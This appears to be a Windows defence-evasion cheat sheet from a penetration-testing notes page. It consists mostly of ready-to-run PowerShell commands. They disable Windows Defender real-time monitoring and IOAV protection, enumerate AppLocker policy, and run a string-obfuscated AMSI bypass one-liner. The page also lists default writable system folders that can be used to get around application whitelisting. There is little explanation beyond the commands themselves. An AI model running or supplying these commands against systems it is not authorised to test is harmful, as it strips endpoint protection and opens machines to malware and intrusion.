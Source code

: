 # Antivirus & Detection
### Windows Defender
- check status of Defender

`PS C:\> Get-MpComputerStatus`

- disable Real Time Monitoring

`PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus`

`PS C:\> Set-MpPreference -DisableIOAVProtection $true`

### AppLocker Enumeration
-	With the GPO
-	HKLM\SOFTWARE\Policies\Microsoft\Windows\SrpV2 (Keys: Appx, Dll, Exe, Msi and Script).
### List AppLocker rules

`PS C:\> $a = Get-ApplockerPolicy -effective`

`PS C:\> $a.rulecollections`

### Powershell
- Default powershell locations in a Windows system.

`C:\windows\syswow64\windowspowershell\v1.0\powershell`

`C:\Windows\System32\WindowsPowerShell\v1.0\powershell`

### Example of AMSI Bypass.
```
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

### Default Writeable Folders
```C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing```
